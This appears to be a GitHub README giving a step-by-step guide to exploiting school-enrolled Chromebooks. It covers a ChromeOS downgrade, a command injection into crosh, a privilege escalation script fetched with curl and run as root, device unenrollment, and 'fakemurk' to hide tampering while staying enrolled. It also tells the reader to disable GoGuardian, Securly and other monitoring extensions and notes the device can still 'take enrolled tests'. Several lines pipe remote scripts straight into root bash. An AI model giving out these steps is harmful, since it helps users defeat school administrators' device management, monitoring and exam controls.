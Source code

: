# This guide has been superseded by the Chromebook Exploit Guide: https://chromebook-guide.github.io/

# The ultimate exploit guide

For this set of exploits, you will need one (or two, if you want to use the unenrollment exploit easily) 8gb or larger USB drive(s), and a chromebook with a board that's either on chrome100 or cros.tech (or, if you're unlucky enough to be on `kindred`, see [here](https://rainestorme.github.io/chrome81/kindred)). There's no need to have your chromebook be compatible with sh1mmer, because this exploit uses only recovery images and traditional exploits.

If you're using one USB drive, then flash it with a copy of ChromeOS 81 for your chromebook's board. If you're using two drives, flash the first one with the same file. If this isn't your first time running this exploit, then you should already have the required recovery drives.

Plug your cros 81 drive into your chromebook and press `Esc+Refresh+Power`. Wait for the process to finish, then reboot and log in as normal, with your school account. Press `Ctrl+Alt+T`. If crosh opens, you can proceed to the next step. Otherwise, use LtBEEF or some other extension-removal exploit to disable whatever extension might be blocking crosh.

Inside of crosh, type in `set_cellular_ppp \';bash;exit;\'`. You should be dropped into a bash prompt. We now have to run a privelige escalation exploit, which is also hosted in this repo (https://github.com/rainestorme/resources/tree/main/80.sh). Run: `bash <(curl https://raw.githubusercontent.com/rainestorme/resources/main/80.sh)` and wait for it to finish.

You should be dropped into a *root* bash prompt (please, please, hold your applause). You now have two choices. You can:

- Unenroll your Chromebook, and, optionally, fakemurk it so that it appears to be verified

     or

- Leave your Chromebook in verified mode and run cedr

## Unenrollment, fakemurk, and murkmod

If you want to unenroll your Chromebook, just run: `vpd -i RW_VPD -s check_enrollment=0`. From there, press `Esc+Refresh+Power` and press `Ctrl+D`. Press enter, then wait for the chromebook to reboot. Press `Ctrl+D` if a screen shows up about verification being off, and wait for the chromebook to reboot in verified mode. All data should be cleared, and your chromebook will be unenrolled. You can setup your chromebook as normal, and sign in with a home account.

To fakemurk your Chromebook, you have to be unenrolled first. Update your Chromebook (it'll only update to v105) and press `Esc+Refresh+Power`. Press `Ctrl+D`, then enter. Wait the 5 minutes for your Chromebook to enter developer mode, then proceed with typical setup. When you get logged in, press `Ctrl+Alt+T` and type `shell`.

Before you do anything else, however, you need to set up some failsafes. Fakemurk in general is pretty tempramental, and if you mess something up you could easily destroy your installation of ChromeOS. Grab the USB drive you used earlier, or grab the second USB drive if you're using two drives. Install the Chromebook Recovery Tool from the chrome webstore and flash the drive with a v105 image, Just In Case You Fuck It Up™.

We're also going to install MrChromeBox's RW_LEGACY firmaware. Run:

```sh
cd; curl -LOk mrchromebox.tech/firmware-util.sh && sudo bash firmware-util.sh
```

And then press `1` and then enter. Wait for it to finish and proceed with the next step, running:

```sh
sudo su
bash <(curl -SLk https://github.com/MercuryWorkshop/fakemurk/releases/latest/download/fakemurk.sh)
```

If the last command errors, press `Esc+Refresh+Power` and recover your chromebook with the v105 drive to try again. Keep trying until it works.

Follow the instructions (be sure to respond "Y" for emergency backups, they're useful in a pinch) and wait for your Chromebook to reboot. Once it reboots, press `Ctrl+D` to continue the boot process. Wait for your Chromebook to enroll. If everything works correctly (as it rarely does) then you should be enrolled as normal, but will have the fakemurk components installed on your device. If enrollment takes a while and then complains about a missing certificate, don't panic! This is normal. Just press `Refresh+Power` and wait for the warning to pop up. Instead of pressing `Ctrl+D`, press space and enter to **disable developer mode**. **Immediately after pressing these keys, press `Refresh+Power`**. This will result in a "ChromeOS is missing or damaged" screen. Once again, this is supposed to happen. Press `Esc+Refresh+Power` and `Ctrl+D` again, **re-enabling developer mode**. There's no five-minute wait this time around, because the rootfs is already unverified and doesn't need to be changed. When you get back to the warning, press `Ctrl+D` to boot. Try to enroll now, and after a short wait, it should work. 

You should be able to use your Chromebook as an enrolled device, take enrolled tests, and do a ton of other fun things. Sometime in the future, I plan to release a tool allowing the opening of extra browser tabs during kiosk tests (because I know you skids would love that), but that's irrellevant.

Open up crosh (`Ctrl+Alt+T`). You might notice that it's been replaced by "mush", the fakemurk replacement for crosh. You can do a lot from here, but a few key options stand out. Obviously, you want to disable certain extensions, such as GoGuardian, Gopher Buddy and Securly. I don't personally reccomend using "Soft Disable Extensions", as it uses a lot of CPU. It's much easier to hard disable extensions and re-enable them later.

One of my favorite capabilities of fakemurk is to run an entire linux desktop environment side-by-side ChromeOS with Crouton. Select the option and wait for it to download the chroot environment to the device. Once you set a password and install the desktop, you can drop into a root bash shell and type `startxfce4` to start the crouton desktop. While you're running the desktop, you can press `Ctrl+Shift+Forward` and `Ctrl+Shift+Back` to get back and forth between the desktop environments.

Policies are also modified, courtesy of Pollen. You can do a lot of things that are normally restricted, such as accessing the webstore and downloading extensions, and installing unsigned apks.

You also have the option of installing murkmod, a project that allows you to install plugins for mush, fakemurk's replacement for crosh. To do so, open a root shell and run the following:

```sh
bash <(curl -SLk https://raw.githubusercontent.com/rainestorme/murkmod/main/murkmod.sh)
```

## Cedr

Cedr is my own little pet project, allowing you to run Crouton on an enrolled Chromebook. The issue with Cedr is that it requires an external drive to store the chroot on. I reccomend using a MicroSD card for chroot storage, but a USB drive can also be used.

Insert the storage device (USB drive/MicroSD card) and find its block device. Run `fdisk -l` and try to identify the device you plugged in.

Cedr allows you to choose any desktop supported by Crouton in this step, but for the sake of simplicity I'll go with xfce4 for this tutorial. Run the following commands, replacing `/dev/sdX` with the block device representing your storage device:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

The drive should be unmounted automatically, and you can remove it.

To activate the desktop environment, you can plug in the device and identify its block device again (as above), or, if you never unplugged it from the last step, use the same one. Run:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

You can freely swap back and forth between ChromeOS and Cedr at will. Once you're finished, log out of your session and run:

```sh
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

